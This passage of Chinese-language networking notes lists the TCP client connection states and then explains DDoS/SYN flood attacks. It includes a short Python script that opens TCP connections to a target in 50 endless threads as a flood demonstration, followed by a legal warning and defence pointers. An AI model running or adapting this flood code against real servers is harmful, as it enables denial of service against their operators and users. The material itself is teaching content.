 ## 【2】客户端的状态

- SYN_SENT：客户端发送完一个连接请求后等待一个匹配的连接请求。
- ESTABLISHED：表示一个打开的连接，客户端接收到的数据可以被投递给用户，处于正常的数据传输阶段。
- FIN_WAIT_1：客户端等待远端TCP的连接终止请求，或者等待之前发送的连接终止请求的确认。
- FIN_WAIT_2：客户端等待远端TCP的连接终止请求。
- CLOSE_WAIT：客户端等待本地用户的连接终止请求。
- LAST_ACK：客户端等待先前发送给远端TCP的连接终止请求的确认，包括它自己的连接终止请求的确认。
- TIME_WAIT：客户端等待足够的时间以确保远端TCP接收到它的连接终止请求的确认。

# 【补充】洪水攻击 ddos

## 【一】什么是 ddos

> - 同一时间有大量的客户端请求建立连接 会导致服务端一直处于SYN_RCVD状态，服务端接收到了大量的syn请求，处于rcvd状态

- 洪水攻击（DDoS攻击）是一种恶意的网络攻击方式，攻击者通过在较短的时间内发送大量的请求，使目标服务器无法正常处理合法请求或服务，并可能导致服务不可用。

- 在DDoS攻击中，攻击者通常会利用大量的僵尸主机（也称为“肉鸡”）来发送大量的连接请求。
  - 这些连接请求将使得服务端一直处于SYN_RCVD状态
  - 因为服务端收到了大量的SYN请求，但无法完成所有的三次握手过程，从而导致资源耗尽，拒绝合法用户的连接请求。
- 以下是一个简单的示例代码，演示了一个简化的DDoS攻击场景：


```python
import socket
import threading

# 目标服务器信息
target_ip = "127.0.0.1"
target_port = 8080

# 定义攻击线程
def attack():
    # 创建大量的攻击者客户端
    while True:
        # 使用不同的IP和端口创建客户端socket
        client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client_socket.connect((target_ip, target_port))

# 启动多个攻击线程
for _ in range(50):  # 假设启动50个攻击线程
    t = threading.Thread(target=attack)
    t.start()
```

- 在上述代码中，攻击者使用多个线程来模拟多个客户端发送连接请求，实际上可以通过控制更多的僵尸主机来完成真正的DDoS攻击。

- 请注意，这个示例代码仅用于演示目的，严禁在未经授权的情况下使用以及对任何网络进行非法攻击。
  - DDoS攻击是违法行为，可能导致严重的法律后果。
- 对于抵御DDoS攻击，通常需要使用专业的防火墙、入侵检测系统（IDS/IPS）和DDoS防护服务等安全措施。
  - 这些解决方案可以帮助识别和过滤掉恶意流量，从而保护目标服务器免受DDoS攻击的影响。
